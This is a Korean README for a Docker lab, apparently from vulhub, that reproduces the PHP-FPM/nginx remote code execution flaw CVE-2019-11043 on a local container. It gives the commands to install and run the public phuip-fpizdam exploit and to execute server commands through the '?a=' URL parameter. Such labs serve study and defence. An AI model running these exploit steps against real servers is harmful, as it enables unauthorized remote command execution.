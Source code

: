 # PHP-FPM 원격 코드 실행 (CVE-2019-11043)

PHP-FPM은 PHP를 FastCGI 방식으로 실행하기 위한 모듈입니다.
PHP 7.1.x, 7.2.x, 7.3.x 버전 중 일부 설정에서, nginx와 함께 잘못 설정될 경우
버퍼를 초과해서 쓰기가 발생하여 원격 코드 실행(RCE)이 가능해집니다.

취약점 번호: CVE-2019-11043

주요 영향 버전: PHP 7.1.33 미만, PHP 7.2.24 미만, PHP 7.3.11 미만

## 실습 환경

- Windows 11 wsl 환경

도커 명령어

```bash
docker compose up -d
```

![alt text](2.png)
서버 접속

```bash
http://127.0.0.1:8080/index.php # http://your-ip:8080/index.php
```

접속 시 정상적으로 hello world가 뜨는 것을 확인할 수 있습니다.

![alt text](1.png)

## 익스플로잇 과정

사용된 도구: https://github.com/neex/phuip-fpizdam

설치방법

```bash
go install github.com/neex/phuip-fpizdam@latest
```

공격 실행 명령어

```bash
~/go/bin/phuip-fpizdam http://127.0.0.1:8080/index.php
```

![alt text](4.png)
취약한 PHP-FPM 설정을 가진 서버를 대상으로, QSL과 PISOS 값의 조작을 통해 세션 설정을 변경하였습니다.

## 결과

```bash
http://127.0.0.1:8080/index.php?a=id
```

![alt text](3.png)

그 결과 URL 파라미터(?a=명령어)를 통해 서버 측 명령어를 원격으로 실행하는 데 성공했습니다.
위 스크린샷은 서버에서 id 명령어를 실행해서 나온 결과를 보여줍니다.

## 주의사항

이 취약점은 PHP-FPM의 일부 자식 프로세스에만 영향을 미칩니다.
따라서 명령어 실행이 실패할 경우, 취약한 프로세스에 연결될 때까지 여러 번 시도해야 할 수 있습니다. 또한 익스플로잇의 성공 여부는 nginx 서버의 설정에 크게 좌우됩니다.

일반적으로 취약한 구성은 다음과 같은 특징을 가집니다:

- FastCGI 처리가 활성화된 서버
- PHP 파일이 PHP-FPM을 통해 전달되는 구조
- URL을 특정 방식으로 분리하는 취약한 location 규칙 사용

[English version](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.md)

[中文版本(Chinese version)](README.zh-cn.md)
